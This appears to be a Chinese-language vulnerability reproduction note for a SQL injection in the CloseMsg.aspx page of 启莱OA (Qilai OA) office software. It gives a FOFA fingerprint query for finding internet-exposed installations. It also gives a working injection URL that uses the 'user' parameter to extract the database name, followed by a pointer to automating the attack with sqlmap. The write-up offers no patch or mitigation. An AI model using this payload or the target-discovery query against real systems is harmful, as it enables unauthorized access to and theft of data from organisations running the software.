 # 启莱OA CloseMsg.aspx SQL注入漏洞

## 漏洞描述

启莱OA CloseMsg.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> 启莱OA

## FOFA

> app="启莱OA"

## 漏洞复现

登录页面如下

![1-1](resource/启莱OA/1-1.png)

存在SQL注入的文件为 CloseMsg.aspx 

```
http://xxx.xxx.xxx.xxx/client/CloseMsg.aspx?user=' and (select db_name())>0--&pwd=1
```

![ql-6](resource/启莱OA/ql-6.png)

使用SQLmap对参数 user 进行注入

![ql-7](resource/启莱OA/ql-7.png)